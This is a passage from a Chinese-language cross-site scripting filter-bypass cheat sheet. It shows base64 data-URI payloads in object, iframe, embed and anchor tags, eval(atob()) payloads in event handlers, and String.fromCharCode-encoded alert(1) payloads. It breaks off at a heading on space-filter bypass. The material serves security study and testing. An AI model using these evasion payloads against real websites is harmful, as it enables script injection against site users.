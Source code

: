 base64编码内容为

```
<script>alert(/xss/)</script>
PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=
```

通常与 base64 编码配合 data 协议的标签有 **<object>、<a>、<iframe>**

```
1.<object> 标签
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
2.<a> 标签
<a href="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=">test</a>   （新版浏览器不支持）
3.<iframe> 标签
<iframe src="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></iframe>
4.<embed> 标签
<embed src="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></embed>
```

**atob 函数**

atob() 方法用于解码使用 base-64 编码的字符串。

语法：`window.atob(encodedStr)`(encodedStr: 必需，是一个通过 btoa() 方法编码的字符串)

```
1.<a href=javascript:eval(atob('YWxlcnQoMSk='))>test</a>
2.<a href=javascript:eval(window.atob('YWxlcnQoMSk='))>test</a>
3.<a href=javascript:eval(window['atob']('YWxlcnQoMSk='))>test</a>
4.<img src=x onmouseover="eval(window.atob('YWxlcnQoMSk='))">
5.<img src=x onerror="eval(atob('YWxlcnQoMSk='))">
6.<iframe src="javascript:eval(window['atob']('YWxlcnQoMSk='))"></iframe>
```

##### 0x06. ascii 编码

ascii 编码一般配合`String.fromCharCode`使用。

```
alert(1)
十进制：97, 108, 101, 114, 116, 40, 49, 41
十六进制：0x61, 0x6C, 0x65, 0x72, 0x74, 0x28, 0x31, 0x29
```

**十进制**

```
<a href='javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))'>test</a>
```

**十六进制**

```
<a href='javascript:eval(String.fromCharCode(0x61, 0x6C, 0x65, 0x72, 0x74, 0x28, 0x31, 0x29))'>test</a>
```

#### 空格过滤绕过
